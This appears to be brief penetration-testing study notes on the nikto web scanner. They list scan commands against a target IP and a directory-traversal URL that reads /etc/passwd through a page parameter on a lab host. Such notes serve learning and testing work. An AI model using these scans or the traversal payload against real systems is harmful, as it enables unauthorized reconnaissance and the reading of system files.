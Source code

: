 * `nikto` -->: Will show the options and other info about the tool
* `nikto -h http://[target IP]` --> Info about the website including directories
* Fetching information about a particular page:
  * `nikto -h http://[target IP]/index.php?page=arbitrary-file-inclusion.php -Tuning 5 -Display V`
  * For storing the output, use this command at the end: `-o [out_filename with extension] -Format htm`
  * We can also access the "passwd" file in a web browser:
    * `http://192.231.34.2/index.php?page=../../../../../../../../../../etc/passwd` --> Mention enough levels down such that we reach the root.
   
* Explore more, not enough included in the tutorial
